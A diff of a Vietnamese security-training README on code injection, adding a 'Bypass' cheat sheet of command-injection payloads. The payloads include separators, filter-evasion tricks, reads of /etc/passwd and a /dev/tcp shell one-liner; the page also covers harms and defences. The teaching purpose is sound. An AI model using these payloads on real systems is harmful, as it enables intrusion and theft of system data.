

Before and after one commit to caodchuong312/KCSC-Training, a Markdown page: task10/README.md, the part around one of its changes. GitHub-like rendering; some formulas as TeX source; blank space fills up the shorter version.

```diff
--- a/task10/README.md
+++ b/task10/README.md
@@ -13,6 +13,25 @@ Nguyên nhân chính của `code injection` là việc không kiểm tra đầu
 ### Tác hại
 - Tác hại của `code injection` có thể rất nghiêm trọng. Kẻ tấn công có thể truy cập và thay đổi dữ liệu, lấy cắp thông tin nhạy cảm, thực hiện các hành động trái phép trên hệ thống máy chủ, thậm chí kiểm soát toàn bộ máy chủ.
 - Ngoài ra còn có thể dẫn đến các cuộc tấn công khác như: SQL injection, XXS, Command injection, ...
+### Bypass:
+- Exploit: `; ls` `&& ls`, `| ls`, `|| ls`,...
+- Bypass space:
+  - Sử dụng `<`: `cat</etc/passwd`
+  - Sử dụng `$IFS`: `cat$IFS/etc/passwd`
+  - Hoặc dùng shell: `sh</dev/tcp/127.0.0.1/4242`
+  - ...
+- Bypass words:
+  - quote: `w'h'o'am'i`, `w"h"o"am"i`
+  - blackslash, slash: `w\ho\am\i`, `/\b\i\n/////s\h`
+  - $@: `who$()ami`
+  - $(): `who$()ami`
+  - `/usr/bin/who*mi` => `/usr/bin/whoami`
+  - `$0` => bash
+- Bypass characters:
+  - `${HOME:0:1}`, `. | tr '!-0' '"-1'`, `${PATH:0:1}` => `/`
+  - `${LS_COLORS:10:1}` => `;`
+- Encoding hex: `\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64`, `2f6574632f706173737764` => `/etc/passwd`
+- RCE with 4 or 5 char: <a href="https://book.hacktricks.xyz/linux-hardening/bypass-bash-restrictions#rce-with-5-chars">here</a>
 ### Cách phòng chống
 - Xác thực đầu vào như sử dụng whitelist: chỉ cho phép các từ kiểm soát được.
 - Mã hóa: escape HTML entities để hạn chế nguy cơ thành mã độc hoặc mã hóa dữ liệu bằng cách khác trước khi được lưu trữ hoặc chuyển lên internet.
```
Also changed, not shown: other parts of task10/README.md (+2 -0 lines).
